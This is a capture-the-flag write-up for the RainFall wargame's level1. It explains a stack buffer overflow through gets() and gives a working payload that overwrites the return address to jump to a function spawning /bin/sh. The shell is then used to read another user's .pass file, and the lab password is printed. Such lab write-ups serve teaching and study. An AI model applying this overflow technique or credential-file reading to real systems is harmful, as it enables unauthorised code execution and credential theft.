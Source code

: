 # Level1

## Analysis

Another executable, [level1](./level1).

When we execute it, it will open a prompt where we can type stuff:

```bash
level1@RainFall:~$ ./level1
asddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
Segmentation fault (core dumped)
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
asdasdalsd
level1@RainFall:~$
```

First thing we notice is that it segfaults when typing too much characters.

Precisely after 76 characters as shown next:

```bash
~/Documents/42/rainfall/level1/resources (main) » python -c 'print "a"*76' | ./level1                                                                                                                                                                                                                                                         ckurt@z1r6p3
[1]    145781 done                              python -c 'print "a"*76' | 
       145782 segmentation fault (core dumped)  ./level1
```

We also decompiled the program [here](./level1_decomp.c) and noticed several things:

- The main is mostly empty

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    void buf;
    return gets(&buf);
}
```
But it returns the result of `gets()`.

- There is also another function outside of the main:

```c
int32_t run()
{
    fwrite("Good... Wait what?\n", 1, 0x13, stdout);
    return system("/bin/sh");
}
```

## Exploit

So if we take a look at an `objdump` of [level1](./level1), we get the output you can find at [level1_dump](./level1_dump).

The part we must take a look at is the address of `run()` which will spawn us a shell.

```
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

Now that we have this wonderful address `08048444`, we will deep into how we can jump there!

Earlier, we used Python to print a precise number of characters, which was the size of the buffer in which the program stores our input. And it's 76 chars long.

Now the other thing which we will have to explain is how the stack is organized:

## Stack explained

When running a program, the system will allocate space for its needs in a specific order:
```
|------|
|kernel|
|------|
|stack |
|------|
|   I  |
|   V  |
|      |
|   ^  |
|   I  |
|------|
| heap |
|------|
| data |
|------|
| text |
|------|
```

- Kernel: it's where the command line parameters are stored
- Stack: holds local variables for each functions, when a new function is called, the arguments are pushed downward
- Heap: where allocated data is stored, huge data such as files etc.
- Data: where uninitialized and inizialized data are stored
- Text: read only area where the actual code is stored

Now, when a function is called, such as `gets()`, arguments are pushed onto the stack but so are the return address (where the pointer should return when the function is done) and the base pointer.

And then there is our buffer, which is pushed at the end.

Now, if we fill our buffer, which is on the stack, to the brim and over, we will overflow on the return address! Why? Because when a function is called, it will push the function itself on the stack, then the parameters, then the return address and finally the base pointer to look something like this:

<-- Low address memories |
High memory address -->

```
|---------|-------------------------------|-----|---------|--------|---|
|         |                               |     |         |        |   |
|   stack |  Buffer                       |  bp | return  | params | ft|
|         |                               |     |         |        |   |
|---------|-------------------------------|-----|---------|--------|---|
```

Now that we have this beautiful example, we can see why going higher than the buffer would cause issues...

If we override the return address, the function will end and jump to the end of our payload which replaced the base return address!

If this explication doesn't work for you, here's the [video](https://www.youtube.com/watch?v=1S0aBV-Waeo&ab_channel=Computerphile) that helped me through Dr_quine and this level!

## What's next

Now that we understand how, let's craft our payload!

We can use the same command we used to find our buffer limit earlier, Python our savior today:

`python -c 'print "a"*76' | ./level1`

That will fill the buffer part and the bp part! So the next part will be on the return adress, we can write another address such as another function? And it will return to this function instead of the main, such as `08048444`.

Now we will use python to do so, careful about the endian to write the address!

Which should be:

`\x44\x84\x04\x08`

And the final part of our craft will result in:

```bash
level1@RainFall:~$ python2 -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

Uh? Weird, it doesn't keep the shell open... Since the `/bin/sh` will read the input passed previously and read EOF which will close the prompt.

More precisions [here](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)

So there is a small trick we can use using `-` which is an alias to `/dev/stdin`. In this case it will be used to concat our payload and stdin so that the shell doesn't close!

```bash
level1@RainFall:~$ python2 -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload.txt
level1@RainFall:~$ cat /tmp/payload.txt - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```